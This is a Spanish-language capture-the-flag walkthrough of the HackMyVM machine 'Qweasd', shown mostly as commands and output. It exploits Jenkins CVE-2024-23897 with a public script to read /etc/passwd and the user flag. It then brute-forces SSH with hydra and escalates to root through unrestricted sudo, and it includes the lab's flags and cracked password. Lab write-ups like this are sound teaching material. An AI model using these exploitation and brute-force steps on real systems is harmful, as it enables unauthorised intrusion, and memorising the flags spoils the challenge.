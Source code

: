 ```yaml
---
icon: flag
---
```


# Qweasd HackMyVM (Intermediate - Linux)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-03 02:27 EDT
Nmap scan report for 192.168.1.167
Host is up (0.00067s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 fa:b1:dc:5b:9e:54:8c:bd:24:4c:43:0c:25:fd:4d:d8 (ECDSA)
|_  256 29:71:69:ca:bc:74:48:26:45:34:77:69:29:a5:d2:fc (ED25519)
8080/tcp open  http    Jetty 10.0.18
|_http-title: Dashboard [Jenkins]
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Jetty(10.0.18)
| http-robots.txt: 1 disallowed entry 
|_/
MAC Address: 08:00:27:35:7A:0D (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.03 seconds
```

Vemos que tenemos un puerto `8080` en el que de primeras el escaneo de `nmap` ya nos dice que es un `Jenkins`, si entramos dentro veremos que ciertamente se trata de un `Jenkins` pero nos dejara entrar de forma anonima, por lo que vamos a investigar.

Si leemos abajo a la derecha, veremos la version del `Jenkins`:

<figure><img src="../../.gitbook/assets/image (339).png" alt=""><figcaption></figcaption></figure>

Vamos a buscar algun `exploit` que este asociado a dicha version, si empezamos a buscar veremos que si lo encontraremos y sera para leer archivos de forma arbitraria en el sistema (`LFI`) que pertenece al `CVE-2024-23897`, si nos decargarmos el `exploit` de `Exploit DB`:

URL = [Download Exploit LFI Jenkins](https://www.exploit-db.com/exploits/51993)

Una vez descargado vamos a utilizarlo de la siguiente forma:

```shell
python3 51993.py -u http://<IP>:8080/ -p /etc/passwd
```

Info:

```
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
dnsmasq:x:113:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
penetration:x:1001:1001::/home/penetration:/bin/bash
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
kali:x:1000:1000:asd:/home/kali:/bin/bash
root:x:0:0:root:/root:/bin/bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
games:x:5:60:games:/usr/games:/usr/sbin/nologin
```

Vemos que ha funcionado y obtendremos `2` usuarios a nivel de sistema:

```
penetration:x:1001:1001::/home/penetration:/bin/bash
kali:x:1000:1000:asd:/home/kali:/bin/bash
```

Vamos a probar a leer la `flag` del usuario en este caso de `penetration`:

```shell
python3 51993.py -u http://<IP>:8080/ -p /home/penetration/user.txt
```

> user.txt

```
flag{Whynotjoinsomehackercommunicationgroups_}
```

## Escalate user penetration

### Hydra

Vamos a realizar un ataque de fuerza bruta al usuario `kali` para ver si obtenemos algo.

```shell
hydra -l kali -P <WORDLIST> ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-03 02:49:07
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://192.168.1.167:22/
[22][ssh] host: 192.168.1.167   login: kali   password: asdfgh
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 30 final worker threads did not complete until end.
[ERROR] 30 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-04-03 02:49:39
```

Vemos que obtuvimos las credenciales del usuario `kali` por lo que nos conectaremos por `SSH`.

### SSH

```shell
ssh kali@<IP>
```

Metemos como contraseña `asdfgh` y veremos que estamos dentro.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for kali on asd:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User kali may run the following commands on asd:
    (ALL : ALL) ALL
```

Vemos que podemos ejecutar cualquier cosa como el usuario `root` por lo que haremos lo siguiente:

```shell
sudo su
```

Info:

```
root@asd:/home/kali# whoami
root
```

Y con esto ya seremos `root`, por lo que leeremos la `flag` del `root`.

> root.txt

```
flag{Hackercommunicationgroup660930334iswaitingforyoutojoin_}
```
